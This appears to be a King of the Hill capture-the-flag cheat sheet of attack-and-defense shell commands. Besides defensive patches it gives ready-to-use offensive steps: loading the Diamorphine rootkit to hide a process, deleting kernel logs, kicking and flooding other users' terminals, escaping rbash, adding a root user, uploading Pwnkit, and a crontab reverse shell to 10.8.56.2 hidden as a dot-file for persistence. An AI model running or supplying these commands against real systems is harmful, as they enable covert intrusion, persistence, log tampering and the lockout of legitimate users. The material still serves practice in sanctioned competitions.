 
# King of The Hill
KoTH - Attack & defense Tricks

- Using rustscan
- Connecting SSH without tty and hiding the process using rootkit
    - ssh -T user@target.ip -p 1337
        - w
        - who
        - tty
        - ls /dev/pts;
    - ps aux | grep notty
        - git clone git@github.com:m0nad/Diamorphine.git
        - make
        - insmod diamorphine.ko
        - kill -31 <PID>
        - tail -f /var/log/kern.log
        - rm /var/log/kern.log
- Kicking people out of the machine using pkill
    - pkill -9 -t pts/<ID>
    - kill -9 <PID>
- Kicking all users connected in SSH
    - kill `ps aux | grep pts | awk ‘{print $2}’`;
- Kicking all people connected to a given user on SSH
    - pkill -9 -U <user>
- Using ps and grep to search for pts/sshd
    - ps aux | grep sshd
- Trolling your opponent
    - cat /dev/urandom > /dev/pts/<ID> &
    - ./nyancat > /dev/pts/<ID> &
    - ./xpl -n /dev/pts/<ID> “cat /dev/urandom”
    - ./breker.sh <ID>
- Bypass rbash
    - vim
        - :set shell=/bin/bash
        - :shell
- Patch /etc/sudoers
    - vim /etc/sudoers
        - remove everything except: root ALL=(ALL=ALL) ALL 
- Patch SUID
    - Find / -perm /4000 2>/dev/null
    - chmod -s /usr/bin/pkexec
- Removing SSH keys
    - cd ~/.ssh
    - rm id_rsa 
    - rm id_rsa.pub
- LFI Patch
    - <?php include ($_GET['page']); ?>    ------>  <?php include (str_replace(“../”, “”, $_GET['page'])); ?>
- Patch Command Injection
    - remove <?php …………  system(...)  ……… ?>
- Capturing flags using find and grep
    - cd /home; grep -ri thm{ 2>/dev/null
    - cd /var/www; grep -ri thm{ 2>/dev/null
    - cd /root; grep -ri thm{ 2>/dev/null
    - find / -name user.txt 2>/dev/null
    - find / -name flag.txt 2>/dev/null
    - find / -name flag 2>/dev/null
- Adding user with root privilege
    - adduser USER
    - add USER ALL=(ALL:ALL) ALL to /etc/sudoers
- Removing execution permissions form binaries
    - chmod -x /usr/bin/wget
    - chmod -x /usr/bin/curl
    - chmod -x /usr/bin/chattr
- Uploading file using SSH
    - ssh user@target.ip -p1337 “cat Pwnkit” < Pwnkit
- Protect king using while
    - while true; do chattr -ia /root/king.txt; echo msoodb > /root/king.txt; chattr +ia /root/king.txt; set -o noclobber /root/king.txt ; done &
- Blocking password authentication in ssh
    - PasswordAuthentication no in /etc/ssh/sshd_config
    - service sshd restart
- Using crontab to load a script with a reverse shell every 1 minute
    - echo "/bin/sh -i >& /dev/tcp/10.8.56.2/4444 0>&1" > /tmp/.persistence.sh
    - chmod +x .persistence.sh
    - vim /etc/crontab
        - * * * * * root /tmp/.persistence.sh




while true; do chmod -x /usr/bin/chattr; set +o noclobber /root/king.txt; ./busybox chattr -ia /root/king.txt; echo msoodb > /root/king.txt; ./busybox chattr +ia /root/king.txt; set -o noclobber /root/king.txt; done